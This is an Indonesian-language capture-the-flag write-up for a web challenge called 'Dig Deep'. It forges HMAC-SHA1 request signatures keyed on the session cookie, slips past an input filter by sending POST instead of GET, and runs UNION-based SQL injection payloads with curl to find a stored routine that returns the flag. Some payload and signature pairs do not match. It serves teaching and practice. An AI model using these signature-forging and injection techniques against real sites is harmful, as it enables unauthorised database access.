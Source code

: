 ## Dig Deep
### Deskripsi

Hi kak, kok [website](http://103.147.32.214:10002/) ini jelek banget ya kak.


### Solusi

setelah di-identifikasi pada source terdapat hint `REQUEST for debug` dengan mencoba mengakses halaman http://103.147.32.214:10002/index.php?id=1&signature=a2490c8f0578e52a4b36a64d3746d37112b929b5&debug=1 ternyata muncul informasi query dari data yang diambil dari database

```
select * from chal where id='1'
```

dengan mencoba memanipulasi parameter `id` menjadi `id=1'` hasilnya `Blocked Request` atau menggantinya dengan angka yang valid `id=999` hasilnya `Invalid Signature Request` artinya parameter `signature` hanya dikhususkan untuk nilai dari parameter `id=1` dengan kata lain harus mendapatkan signature yang valid untuk merubah parameter `id`

setelah diteliti parameter signature akan berubah jika cookies `PHPSESSID` berubah, misalnya

```
signature=a2490c8f0578e52a4b36a64d3746d37112b929b5 = 40 karakter
PHPSESSID=4f81531a92ed897aa42712a0489e86a3 = 32 Karakter

signature=9ee3b3112eccb57ca32aa0edf1a7b87444a59454 = 40 karakter
PHPSESSID=9npr2gu2f4pv1jl8phmefmlbcu = 26 Karakter
```

setelah beberapa kali menghapus cookies dan memperhatikan pattern yang ada, kemungkinan besar signature berubah jika cookies berubah, tetapi signature tetap 40 karaketer dimana 40 karakter umunya adalah panjang hash sha1.


jika browsing di google dengan keyword `php sha1 request signature` kebanyakan hasilnya akan merujuk pada **HMAC SHA1 Signature** 

```php
<?php 
hash_hmac('sha1', 'string', 'key', $raw_output=TRUE)
```

hasil dari `hash_hmac` berbentuk unprintable karakter, dari banyak sample banyak yang merubahnya dalam bentuk base64 atau md5 atau sha1, sehingga bentuknya menjadi

```php
<?php 
sha1(hash_hmac('sha1', 'string', 'key', $raw_output=TRUE))
md5(hash_hmac('sha1', 'string', 'key', $raw_output=TRUE))
base64_encode(hash_hmac('sha1', 'string', 'key', $raw_output=TRUE))
```

dalam kasus ini, kemungkinan adalah sha1 karena panjang signature adalah 40 karakter, berbekal informasi tersebut, hanya variable `key` yang menjadi masalah, karena pattern yang didapat ketika cookies berubah signature berubah maka asumsinya cookies adalah key-nya.

```php
$signature = sha1(hash_hmac('sha1', 999, '9npr2gu2f4pv1jl8phmefmlbcu', $raw_output=TRUE));
//ea3a5d25ae9deedfcfafa545e529df9f41d937d4
```

jika kita akses halaman website alamat 

```
http://103.147.32.214:10002/index.php?id=999&signature=ea3a5d25ae9deedfcfafa545e529df9f41d937d4&debug=1
```

hasilnya halaman muncul tanpa error dan tanpa peringatan, plus informasi debug memberikan informasi tambahan berupa query yang dijalankan

```sql
select * from chal where id='999'
```

selanjutnya tinggal menjalankan command sql-injection seperti kebanyakan, misalnya seperti

```php
$payload = "1'";
$signature = sha1(hash_hmac('sha1', $payload, '9npr2gu2f4pv1jl8phmefmlbcu', $raw_output=TRUE));
// 4c2fb3dc973fa079646339ef4575cf9cfa861c08
http://103.147.32.214:10002/index.php?id=1'&signature=4c2fb3dc973fa079646339ef4575cf9cfa861c08&debug=1
```

sayangnya hasilnya adalah `Blocked Request` artinya parameter id diberikan filter untuk mengantisipasi serangan SQL Injection, mencoba beberapa payload dan hasilnya tetap sama `Blocked Request`

setelah dipantengin lagi, ada hint tentang `REQUEST for debug` **REQUEST** bisa jadi **POST** atau **GET** karena pada php **REQUEST** bisa bersumber dari mana saja, seperti post,get,env dan yang lain, jika dicoba dengan post hasilnya

```bash
curl --location --request POST 'http://103.147.32.214:10002/index.php?debug=1' \
--header 'Cookie: PHPSESSID=9npr2gu2f4pv1jl8phmefmlbcu' \
--form 'id="1'\''"' \
--form 'signature="4c2fb3dc973fa079646339ef4575cf9cfa861c08"'
```

hasilnya tidak ada pesan `Blocked Request` dan debug menunjukan `select * from chal where id='1''` artinya dengan method **POST** tidak ada pem-filteran untuk parameter id tetapi ada validasi untuk parameter signature, dengan begitu tinggal melanjutkan injection nya dengan payload yang berbeda

```php
$payload = "1' and 1=0 union select 1,version(),3-- -";
$signature = sha1(hash_hmac('sha1', $payload, '9npr2gu2f4pv1jl8phmefmlbcu', $raw_output=TRUE));
//ccd1674a0a25b7943847b51bb7fda76ab8f5661e
```

ketika payload dikirimkan, hasilnya

```bash
curl --location --request POST 'http://103.147.32.214:10002/index.php?debug=1' \
--header 'Cookie: PHPSESSID=9npr2gu2f4pv1jl8phmefmlbcu' \
--form 'id="1'\'' and 1=0 union select 1,version(),3-- -"' \
--form 'signature="ccd1674a0a25b7943847b51bb7fda76ab8f5661e"'

....

select * from chal where id='1' and 1=0 union select 1,version(),3-- -'
...
...
...
5.7.36
....

```


setelah mengirimkan payload sql-injection untuk mencari table, database dan isinya tetap saja flag tidak ada

```bash
$payload = "1' and 1=0 union select 1,group_concat(id),3 from chal limit 1-- -";
$signature = sha1(hash_hmac('sha1', $payload, '9npr2gu2f4pv1jl8phmefmlbcu', $raw_output=TRUE));
//3ed95455ca70a8b150150f6ffddf774bee7a5cf2

curl --location --request POST 'http://103.147.32.214:10002/index.php?debug=1' \
--header 'Cookie: PHPSESSID=9npr2gu2f4pv1jl8phmefmlbcu' \
--form 'id="1'\'' and 1=0 union select 1,group_concat(desc),3 from chal limit 1-- -"' \
--form 'signature="c25a0cff580e063a3a74f2cde62af502e5b47a63"'
```

setelah mencari pada tiap kolom, hasil akhirnya tetap tidak menampilkan flag, hanya berupa informasi

```
You,Are Looking,In Wrong Place
```

sesuai judulnya, kita diminta menggali lebih dalam, dan pada akhirnya ketemunya ada dalam routine database


```bash
$payload = "1' and 1=0 union select 1,group_concat(routine_name),3 from information_schema.routines limit 1-- -";
$signature = sha1(hash_hmac('sha1', $payload, '9npr2gu2f4pv1jl8phmefmlbcu', $raw_output=TRUE));


curl --location --request POST 'http://103.147.32.214:10002/index.php?debug=1' \
--header 'Cookie: PHPSESSID=9npr2gu2f4pv1jl8phmefmlbcu' \
--form 'id="1'\'' and 1=0 union select 1,group_concat(routine_name),3 from information_schema.routines limit 1-- -"' \
--form 'signature="bd27852a1c186563e38c1ebb4976bac53e08f6dc"'
```

dan hasilnya adalah

```sql
select * from chal where id='1' and 1=0 union select 1,group_concat(routine_name),3 from information_schema.routines limit 1-- -'
...
...
...
give_me_flag
```

final step, tinggal mendapatkan flagnya

```bash
$payload1 =  "1' and 1=0 union select 1,unhex(give_me_flag()),3-- -";
$signature = sha1(hash_hmac('sha1', $payload, '9npr2gu2f4pv1jl8phmefmlbcu', $raw_output=TRUE));
// Hasilnya 
lastctf{sql1nj3ct10n_ju5t_f0r_fun}
```